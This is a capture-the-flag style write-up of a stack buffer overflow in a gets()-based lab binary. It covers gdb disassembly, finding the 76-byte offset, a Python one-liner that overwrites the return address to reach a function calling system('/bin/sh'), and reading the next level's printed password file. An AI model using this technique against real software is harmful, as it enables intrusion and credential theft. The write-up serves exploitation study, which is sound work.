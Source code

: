 As seen in the disassembled code, the program uses the gets() function to take user input :

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:    push   %ebp
   0x08048481 <+1>:    mov    %esp,%ebp
   0x08048483 <+3>:    and    $0xfffffff0,%esp
   0x08048486 <+6>:    sub    $0x50,%esp
   0x08048489 <+9>:    lea    0x10(%esp),%eax
   0x0804848d <+13>:   mov    %eax,(%esp)
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   0x08048495 <+21>:   leave  
   0x08048496 <+22>:   ret    
End of assembler dump.
```

By examining the man page for the gets() function, it can see that this function is deprecated and poses some significant security vulnerability:
```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.
```

We try to do a buffer overflow by inputting a string exceeding 100 characters:

```
$ ./level1
letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42letest42
Segmentation fault (core dumped)
```

This confirmed the presence of a buffer overflow. Next, we determined the buffer size using gdb:
```
$ gdb ./level1
(gdb) disass main
```
We found that the buffer size is 0x50, or 80 bytes.

We then examined all functions in the program with `info functions` and identified a `run` function that calls the `system` function:
```
(gdb) info functions
0x080482f8  _init
[...]
0x08048444  run
0x08048480  main
[...]

(gdb) disass run
0x08048444 <+0>:	push   %ebp
0x08048445 <+1>:	mov    %esp,%ebp
[...]
0x08048472 <+46>:	movl   $0x8048584,(%esp)
0x08048479 <+53>:	call   0x8048360 <system@plt>
[...]

(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```
To exploit the program, we generated a string of 76 characters followed by the address of the `run` function (0x08048444) in little-endian format (\x44\x84\x04\x08):
```
$ python -c "print('-' * 76 + '\x44\x84\x04\x08')" > /tmp/test
$ cat /tmp/test - | ./level1
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
